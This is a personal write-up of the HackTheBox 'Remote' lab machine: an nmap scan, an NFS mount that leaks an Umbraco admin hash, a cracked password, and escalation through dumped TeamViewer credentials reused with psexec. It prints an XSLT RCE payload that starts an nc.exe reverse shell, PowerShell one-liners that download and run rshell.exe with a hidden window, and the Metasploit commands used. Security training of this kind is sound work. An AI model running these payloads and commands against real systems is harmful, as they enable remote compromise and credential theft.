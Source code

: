 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

* Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

* As usual, I went through most of the well known ports to explore the attack surface:
    - Start dirbuster on web applications
    - Start manually browsing the web content
    - Attempt manual connections to ftp and mountd services
    - Fire up msfconsole and run some recon against netbios and rpc

* I hit two interesting leads in the recon:
   - Dirbuster found bunch of content on port 80
   
      ```
      GENERATED WORDS: 4612

      ---- Scanning URL: http://10.10.10.180/ ----
      + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
      + http://10.10.10.180/blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/home (CODE:200|SIZE:6703)
      + http://10.10.10.180/Home (CODE:200|SIZE:6703)
      + http://10.10.10.180/install (CODE:302|SIZE:126)
      + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
      + http://10.10.10.180/master (CODE:500|SIZE:3420)
      + http://10.10.10.180/people (CODE:200|SIZE:6739)
      + http://10.10.10.180/People (CODE:200|SIZE:6739)
      + http://10.10.10.180/person (CODE:200|SIZE:2741)
      + http://10.10.10.180/product (CODE:500|SIZE:3420)
      + http://10.10.10.180/products (CODE:200|SIZE:5328)
      + http://10.10.10.180/Products (CODE:200|SIZE:5328)
      + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
      ```
   - Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 
   
      ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
   - Second important discovery:
      - I was able to mount a volume using the mountd service
        
        `mount 10.10.10.180:/site_backups site_backups/`
      - It contained a directory called `App_data` with file `Umbraco.sdf`
      - A quick google search reveals it's a database file
      - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 
        
          `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
      - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
      - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
      - Login to the Umbraco CMS as admin
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`
 
* Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```

* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!

  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
  
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 

```
msfconsole> use windows/smb/psexec
msfconsole> set SMBUSer administrator
msfconsole> set SMBPass !R3m0te!

msfconsole> exploit
```

and BAM! I could not believe it worked. And as easy as that, we get the administrator access and the root flag!
